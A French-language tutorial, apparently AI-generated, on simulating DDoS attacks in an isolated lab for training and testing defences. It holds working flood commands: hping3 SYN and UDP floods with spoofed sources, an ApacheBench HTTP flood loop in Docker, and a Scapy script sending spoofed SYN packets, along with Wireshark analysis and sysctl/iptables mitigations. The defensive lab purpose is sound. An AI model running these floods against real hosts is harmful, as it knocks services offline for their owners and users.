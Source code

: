 # Tutoriel : Simuler un DDoS en environnement sécurisé

## 🎯 Objectif  
Reproduire différents types d'attaques DDoS (SYN‑flood, UDP/HTTP flood) dans un lab isolé, analyser leur impact, et comprendre les contre-mesures.

## 🧠 Scénario émotionnel  
Vous gérez un service web et craignez un assaut automatisé. Vous devez tester votre infrastructure en environnement contrôlé pour anticiper et mitiger avant un vrai incident.

---

## 🛠️ Prérequis  
- Deux VM ou conteneurs Docker sur un réseau isolé (attacker + cible + sniff)  
- Système : Kali Linux (attacker) + Ubuntu/Nginx (victime)  
- Outils : `hping3`, `ab` (ApacheBench), `Wireshark`, `Scapy` ou Python  
- Réseau non accessible depuis Internet

---

## 🧩 Étape 1 – Préparer l’environnement

1. VM Attacker : Kali avec `sudo apt install hping3 apache2-utils`  
2. VM Cible : Ubuntu avec serveur `sudo apt install nginx`  
3. Sniffer : Wireshark ou `tcpdump -i eth0 -w ddos.pcap`

---

## 🧩 Étape 2 – Attaque SYN-flood avec hping3

```bash
sudo hping3 -S --flood --rand-source -p 80 <IP_CIBLE>

	•	-S : SYN-flood ; --flood : envoi continu ; --rand-source : fausse IP
Analysez avec htop, logs /var/log/nginx/access.log ou Wireshark  ￼ ￼ ￼

⸻

🧩 Étape 3 – Attaque UDP flood

sudo hping3 --udp --flood -p 80 <IP_CIBLE>

Simule une saturation UDP, à regarder via netstat -s pour erreurs ou surcharge

⸻

🧩 Étape 4 – Attaque HTTP flood simulée

Créez un conteneur Docker :

FROM alpine
RUN apk add apache2-utils
COPY attack.sh /attack.sh
CMD ["sh","/attack.sh"]

attack.sh :

#!/bin/sh
while true; do
  ab -n 1000 -c 50 http://<IP_CIBLE>/;
  sleep 1;
done

ab envoie des requêtes HTTP intensément → simulateur HTTP flood  ￼

⸻

🔍 Étape 5 – Capture & analyse avec Wireshark
	•	Filtre tcp.flags.syn==1 pour SYN floods
	•	VOIX UDP ou HTTP, latence, erreurs 503
	•	Volume et rafale des paquets ￼

⸻

🛡️ Étape 6 – Mitigation et défenses

Dans un shell cible :

# Activer SYN cookies
sudo sysctl -w net.ipv4.tcp_syncookies=1

# Limiter la taille des queues
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=128

# Rate limiting via iptables
sudo iptables -A INPUT -p tcp --syn -m limit --limit 10/s --limit-burst 20 -j ACCEPT

Testez à nouveau les attaques pour observer l’amélioration.

⸻

🧠 Étape 7 – Simulation d’un botnet Scapy (optionnel)

from scapy.all import send, IP, TCP
import random

for _ in range(10000):
    src = ".".join(str(random.randint(1,254)) for _ in range(4))
    pkt = IP(src=src, dst="<IP_CIBLE>")/TCP(dport=80, flags="S")
    send(pkt, verbose=False)

Émule un botnet simple sans surcharge, intéressant pour analyse comportementale  ￼ ￼

⸻

🧪 Quiz de consolidation
	1.	Quel flag TCP déclenche le flood SYN ?
	2.	Pourquoi utiliser --rand-source ?
	3.	Quels indicateurs de mitigation via sysctl surveiller ?
	4.	Comment reconnaître un HTTP flood dans les logs ?
	5.	Quel est le risque principal d’un test DDoS hors lab ?

⸻

✅ Cas d’usage
	•	Test de robustesse pour serveurs web afin d’éviter indisponibilité
	•	Validation de règles iptables, SYN cookies, rate-limiting
	•	Formation SOC : détection & réponse à une attaque DDoS en live

⸻

🔧 Extensions possibles
	•	Créer un botnet réparti via plusieurs conteneurs Docker
	•	Utiliser des scénarios red team avec outils comme LOIC/HULK  ￼ ￼ ￼ ￼ ￼ ￼
	•	Automatiser la simulation + collecte via scripts + alertes Slack
	•	Build un prototype de détection DDoS avec machine learning (ex. sur entropie/flot) ()

⸻

🎓 Résultat attendu
	•	Attaques SYN, UDP et HTTP simulées dans un environnement contrôlé
	•	Analyse et rapport des effets sur la cible (CPU, latence, logs)
	•	Implémentation efficace des contre-mesures réseau
	•	Base solide pour élaborer un véritable IDS/IPS anti-DDoS

---

### 📚 Sources principales  
- DDoS via hping3 (SYN/UDP floods)  [oai_citation:13‡GitHub](https://github.com/Indrajith-S/CEH-Lab-Notes/blob/master/9.%20Denial%20of%20Service/Perform%20a%20DoS%20Attack%20on%20a%20Target%20Host%20using%20hping3.md?utm_source=chatgpt.com)  
- HTTP flood via ApacheBench dans Docker  [oai_citation:14‡blogs.chiragganguli.com](https://blogs.chiragganguli.com/content/DDoS-Attack-Simulation-using-Docker?utm_source=chatgpt.com)  
- Guide Keysight pour simulation DDoS en labo  [oai_citation:15‡Keysight](https://www.keysight.com/us/en/assets/7019-0414/technical-overviews-archived/Simulating-a-DDoS-Attack-in-Your-Own-Lab.pdf?utm_source=chatgpt.com)  
- Botnet simulé en Python/Scapy  [oai_citation:16‡GitHub](https://github.com/eniac1546/Simple-DDOS-attack-Implementation?utm_source=chatgpt.com)

